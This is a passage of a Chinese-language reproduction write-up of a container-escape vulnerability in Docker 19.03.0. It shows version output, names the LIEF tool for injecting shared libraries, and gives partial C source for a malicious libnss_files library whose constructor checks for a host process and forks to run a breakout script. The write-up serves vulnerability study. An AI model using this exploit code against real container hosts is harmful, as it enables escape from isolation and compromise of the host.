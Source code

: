 - docker 19.03.0
```bash
root@click:~# docker version
# client 版本不限
Client: Docker Engine - Community
 Version:           20.10.21
 API version:       1.40
 Go version:        go1.18.7
 Git commit:        baeda1f
 Built:             Tue Oct 25 18:02:00 2022
 OS/Arch:           linux/amd64
 Context:           default
 Experimental:      true

Server: Docker Engine - Community
 Engine:
  Version:          19.03.0
  API version:      1.40 (minimum version 1.12)
  Go version:       go1.12.5
  Git commit:       aeac949
  Built:            Wed Jul 17 18:13:43 2019
  OS/Arch:          linux/amd64
  Experimental:     false
 containerd:
  Version:          1.6.12
  GitCommit:        a05d175400b1145e5e6a735a6710579d181e7fb0
 runc:
  Version:          1.1.4
  GitCommit:        v1.1.4-0-g5fd4c4d
 docker-init:
  Version:          0.18.0
  GitCommit:        fec3683

```

- lief
[https://github.com/lief-project/LIEF](https://github.com/lief-project/LIEF)
用来注入 so 库文件
### 复现过程

1. 编译一个恶意代码库文件（library），用来注入到会被调用到的 libnss_files-xx.so 文件中
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <unistd.h>
#include <string.h>
#include <sys/wait.h>

#define ORIGINAL_LIBNSS "/lib/x86_64-linux-gnu/libnss_files-2.27-origin.so"
#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

bool is_priviliged();

__attribute__ ((constructor)) void back(void) {
    char *argv_break[2];
	// 检查是否为宿主机进程
    if (!is_priviliged())
        return;
	// 将原始 libnss_files 文件替换回来，在实验中，如果不替换回来会导致无限调用此恶意函数，因为 retry 调用
    rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
	
	// 在子进程中执行恶意代码部分放到 breakout 脚本中，可以方便定义执行命令内容
    if (!fork()) {
```